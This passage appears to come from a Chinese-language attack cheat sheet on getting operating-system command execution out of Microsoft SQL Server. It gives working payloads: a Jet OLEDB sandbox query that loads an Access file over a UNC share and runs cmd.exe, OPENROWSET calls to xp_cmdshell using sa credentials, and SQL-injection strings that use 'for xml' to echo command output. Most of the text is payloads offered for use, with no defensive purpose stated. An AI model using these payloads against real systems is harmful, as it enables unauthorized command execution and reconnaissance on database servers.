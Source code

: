 Windows 2008 R2+SQL Server2005 沙盒模式执行命令的语句:

（ Windows 2008 R2 默认无Access数据库文件,需要自己上传,或者用UNC路径加载文件方能执行命令.）

```
select * from openrowset('microsoft.jet.oledb.4.0',';database=\\192.168.1.8\file\ias.mdb','select shell("c:\windows\system32\cmd.exe /c net user  >c:\test.txt ")');

```

（ SQL Server2008 默认未注册microsoft.jet.oledb.4.0接口,所以无法利用沙盒模式执行系统命令.）

#### 4.OPENROWSET调用xp_cmdshell 执行系统命令:

（在知道sa权限帐号密码情况下,db_owner或者public的数据库权限使用OPENROWSET调用xp_cmdshell 执行系统命令.）

```
SELECT * FROM OPENROWSET('SQLOLEDB', '127.0.0.1';'sa';'p4ssw0rd', 'SET FMTONLY OFF execute master..xp_cmdshell "ver"');

```

### 小技巧:

使用 for xml 实现执行内容回显:

<table style="box-sizing: border-box; border-collapse: separate; border-spacing: 0px; background-color: rgb(255, 255, 255); border-top: 1px solid rgb(224, 224, 224); border-left: 1px solid rgb(224, 224, 224); font-family: Helvetica, Arial, &quot;Hiragino Sans GB&quot;, sans-serif; letter-spacing: normal; orphans: 2; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial;"><tbody style="box-sizing: border-box;"><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">for xml raw/auto</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">适用于SQL Server 2000及以上版本 **(**附**:此法只能取首行数据,问题待解决.)**</td></tr></tbody></table>

```
or 1 in(SELECT * FROM OPENROWSET('SQLOLEDB', 'trusted_connection=yes', 'SET FMTONLY OFF execute master..xp_cmdshell "set"'))for xml raw
or 1 in(SELECT * FROM OPENROWSET('SQLOLEDB', 'trusted_connection=yes', 'SET FMTONLY OFF execute master..xp_cmdshell "set"'))for xml auto

```

<table style="box-sizing: border-box; border-collapse: separate; border-spacing: 0px; background-color: rgb(255, 255, 255); border-top: 1px solid rgb(224, 224, 224); border-left: 1px solid rgb(224, 224, 224); font-family: Helvetica, Arial, &quot;Hiragino Sans GB&quot;, sans-serif; letter-spacing: normal; orphans: 2; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial;"><tbody style="box-sizing: border-box;"><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">for xml path</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">适用于SQL Server 2005及以上版本,虽然是一次性获取所有内容,但是取出内容数量取决于表定义的长度.</td></tr></tbody></table>

```
SELECT * FROM OPENROWSET('SQLOLEDB', 'trusted_connection=yes', 'SET FMTONLY OFF execute master..xp_cmdshell "ver"') for xml path  
SELECT * FROM OPENROWSET('SQLOLEDB', '192.168.1.117';'sa';'123456', 'SET FMTONLY OFF execute master..xp_cmdshell "ver"')for xml path

```
